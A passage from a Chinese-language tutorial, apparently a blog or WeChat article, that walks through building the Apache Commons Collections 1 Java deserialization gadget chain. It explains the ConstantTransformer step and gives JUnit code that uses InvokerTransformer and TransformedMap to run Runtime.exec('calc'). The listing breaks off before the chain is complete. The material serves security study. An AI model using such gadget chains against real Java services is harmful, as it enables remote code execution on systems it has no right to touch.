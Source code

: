 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xClUkwicmh2xkm2ZCV3d6LYY4fgfd3askDjtnG0zfHPzDluicZzxvWK9TvicL4YZDMicKicbIeH6eF1LoA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xClUkwicmh2xkm2ZCV3d6LYYX1oao3Y4B1YtBPrnw1rItvxgI6aPfZiaXRSEfLhbCXklE959nVTQohg/640?wx_fmt=png&from=appmsg "")  
  
我们可以看到成功的停在了这里，成功的使第一层if成立，那么第二层if呢？  
  
我们发现其实第二层if就是判断我们传入的memberType是否可以进行实例化，也就是测试代码中的实体中的键值对，那一般情况下肯定是可以进行实例化的，所以第二层if也自然而然成立。  
  
问题四：  
  
我们给setValue()函数传入的参数是不可控的，怎么能够让我们可控呢？  
  
回答：  
  
使用ConstantTransformer类可以解决。  
  
6  
  
**ConstantTransformer类：**  
  
ConstantTransformer类的作用是不管你传入什么，它都能正常返回iConstant常量。  
  
我们看它是从哪里传入的？  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xClUkwicmh2xkm2ZCV3d6LYYaWmHA8ZqdjOZMhZkHwxDevYInH7NGByZicfs1cBcicgiaRPc2vwCbaZNw/640?wx_fmt=png&from=appmsg "")  
  
我们发现是在构造ConstantTransformer类的时候就已经传入了。  
  
接下来我们开始构造，如下：  
  
因此我们在调用的时候必须传入Runtime.getRuntime()，所以在entry.setValue()函数中不管传入什么都不重要了，因为它返回的都是一个iConstant常量。  
  
**代码如下：**  
```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.Test;
import sun.reflect.annotation.AnnotationType;
import java.io.IOException;
import java.lang.annotation.Annotation;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
public class CC1Test1 {
    
    @Test
    
    public void 
        invokeExec() throws Exception {
        
        //Runtime.getRuntime().exec("calc");
        
        InvokerTransformer invokerTransformer = new InvokerTransformer(
            "exec",
            new Class[]{String.class},                
            new Object[]{"calc"}
        );
        
        //invokerTransformer.transform(Runtime.getRuntime());
        //Map decorated = TransformedMap.decorate(null,null, invokerTransformer);
        //TransformedMap.checkSetValue();
        
        HashMap<Object, Object> map = 
        new HashMap<>();
        map.put("a", "b");
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, invokerTransformer);
        
```